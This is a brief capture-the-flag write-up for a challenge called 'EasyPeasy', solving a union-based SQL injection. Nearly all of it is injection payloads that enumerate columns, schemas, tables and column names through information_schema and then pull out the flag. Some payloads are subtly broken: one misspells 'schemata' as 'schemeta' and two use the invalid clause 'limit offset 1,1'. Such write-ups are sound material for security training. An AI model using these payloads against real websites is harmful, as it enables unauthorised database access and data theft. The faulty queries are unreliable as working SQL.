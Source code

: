 # EasyPeasy

## Description:

> Union-based SQL Injection!

## Solution:

Find the number of columns by iterating.

```
?id=-1 union select 1,2,3
```

Iterate schema names.

```
?id=-1 union select 1,schema_name,3 from information_schema.schemeta limit offset 1,1

```

Iterate table names.

```
?id=-1 union select 1,table_name,3 from information_schema.tables where table_schema='fl4g' limit offset 1,1

```

Iterate column names.

```
?id=-1 union select 1,column_name,3 from information_schema.columns WHERE table_name='secret' limit 1,1

```

Finally get the value.

```
?id=-1 union select 1,THIS_IS_FLAG_YO,3 from fl4g.secret

```
